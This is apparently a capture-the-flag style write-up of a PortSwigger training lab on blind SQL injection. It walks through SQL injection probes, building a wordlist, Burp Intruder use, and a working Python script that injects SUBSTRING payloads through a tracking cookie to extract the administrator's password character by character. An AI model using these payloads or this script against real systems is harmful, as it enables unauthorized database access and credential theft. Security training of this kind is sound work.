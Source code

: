 # [Lab:  Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

>This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.To solve the lab, log in as the administrator user.
>
>If it returns data then display  => `Welcome Back`
>

## Step 1 : Check vul sql blind
```sql
' or 1=1-- -

' || (select '' from dual) || '  =>Oke       

1' union select '1' from users where username='administrator'-- -
```
![check1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check1.PNG)


## Step 2 : Check length password 
![check1](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check2.PNG)

=> Length of administrator password : 20 

## Step3 : Use the substring to find the first letter of password 
`SUBSTRING(string, start, length)`

`1. Create payload to check password `

```py
import string

chars = string.printable[:-6]
f = open('abc.txt',"w")

for c in chars:
	with open("abc.txt","a") as f :
		f.write(c + "\n")

```

`2. Use burp suite intruder `

![check](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check_3.png)

=> The first letter is 't'

## Step 4 : Code py to find full letter of password
```py
import string
import requests

url='https://acfb1fcd1f5d9cb4c0067543004e007f.web-security-academy.net/'
chars = string.printable[:-6]
#print(chars)
admin_pass=''
i=1
s=requests.Session()
s.get(url)

while True:
	for c in chars:
		payload = f"1' union select '1' from users where username='administrator' and substring(password,{i},1)='{c}'-- -"
		cookie1={"TrackingId":payload}
		r = requests.get(url,cookies=cookie1)
		print(c)
		if 'Welcome' in r.text :
			print('okeeeeeeeeeee')
			admin_pass+=c 
			i+=1
			print(admin_pass)
			break
		if(i==21):
			exit()

```

![check4](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/check4.PNG)

=> Pass : `tdbnwdqkghsguyxqkywa`

## Step 5 : login user : `administrator` with password : `tdbnwdqkghsguyxqkywa`
![ok](https://github.com/tinasahara1/Vulnerable-CTF-/blob/7233da29d2d1d91889c23b1923f53f068c14163c/SQL/MySQL/image/oke.PNG)





